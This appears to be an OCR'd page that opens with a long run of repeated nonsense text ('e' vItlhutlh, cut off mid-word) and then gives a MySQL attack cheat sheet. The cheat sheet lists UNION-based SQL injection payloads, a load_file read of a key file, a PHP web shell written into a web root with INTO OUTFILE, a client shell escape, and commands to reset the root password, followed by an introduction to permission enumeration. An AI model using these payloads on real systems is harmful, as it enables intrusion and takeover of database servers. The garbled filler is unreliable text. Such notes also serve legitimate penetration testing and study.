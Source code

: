 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlh
```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```
### MySQL Permissions Enumeration

#### Introduction

In MySQL, permissions control the actions that users can perform on databases and tables. Enumerating the permissions of a MySQL user is an important step in the process of assessing the security of a MySQL server. By understanding the privileges assigned to a user, an attacker can identify potential vulnerabilities and plan their attack accordingly.
